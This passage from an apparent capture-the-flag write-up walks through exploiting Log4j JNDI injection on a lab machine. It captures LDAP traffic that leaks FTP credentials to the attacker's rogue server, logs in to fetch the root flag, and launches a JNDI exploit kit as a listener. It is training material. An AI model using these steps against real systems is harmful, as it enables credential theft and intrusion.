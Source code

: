 ```sh
   63 47.966911534  10.10.14.12 → 10.10.11.138 LDAP 66 searchResDone(2) success  [1 result]
<SNIP>
```

By putting PENCER in the string we can easily see it in the output. We could also grep to show just the lines we're interested in:

```sh
┌──(root💀kali)-[~/htb/logforge]
└─# tshark -r capture-output.pcap -Y "tcp.port == 389" | grep PENCER
Running as user "root" and group "root". This could be dangerous.
   59 47.962551601 10.10.11.138 → 10.10.14.12  LDAP 151 searchRequest(2) "PENCER--USER:ippsec:PASSWORD:log4j_env_leakage" baseObject 
   62 47.966884610  10.10.14.12 → 10.10.11.138 LDAP 923 searchResEntry(2) "PENCER--USER:ippsec:PASSWORD:log4j_env_leakage" 
```

So we've found the username and password. We can now switch back to the box, log in properly and get that root flag again:

```text
tomcat@LogForge:/tmp$ ftp localhost
Connected to localhost.
220 Welcome to the FTP-Server
Name (localhost:tomcat): ippsec
331 User name okay, need password
Password:
230-Welcome to HKUST
230 User logged in successfully
Remote system type is FTP.
ftp> get root.txt
local: root.txt remote: root.txt
200 Command OK
150 Opening ASCII mode data connection for requested file root.txt
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 File transfer successful. Closing data connection.
33 bytes received in 0.00 secs (49.5032 kB/s)
ftp> exit
221 Closing connection
tomcat@LogForge:/tmp$ cat root.txt 
<HIDDEN>
```

## FTP JNDI Exploit 2

There is one other thing we could have done instead of using tshark to capture the traffic our rogue LDAP server is sending as the payload. It is actually much easier, we just start the JNDI exploit kit listening on port 389 but without a payload. Use the same JNDI query as before on the box as the FTP username, when you switch back to Kali you'll see we have what we wanted:

```sh
┌──(root💀kali)-[~/htb/logforge]
└─# java -jar JNDI-Exploit-Kit/target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.12:389
       _ _   _ _____ _____      ______            _       _ _          _  ___ _   
      | | \ | |  __ \_   _|    |  ____|          | |     (_) |        | |/ (_) |  
      | |  \| | |  | || |______| |__  __  ___ __ | | ___  _| |_ ______| ' / _| |_ 
  _   | | . ` | |  | || |______|  __| \ \/ / '_ \| |/ _ \| | __|______|  < | | __|
 | |__| | |\  | |__| || |_     | |____ >  <| |_) | | (_) | | |_       | . \| | |_ 
  \____/|_| \_|_____/_____|    |______/_/\_\ .__/|_|\___/|_|\__|      |_|\_\_|\__|
                                           | |                                    
                                           |_|               created by @welk1n 
                                                             modified by @pimps 
[HTTP_ADDR] >> 10.10.14.12
[RMI_ADDR] >> 10.10.14.12
```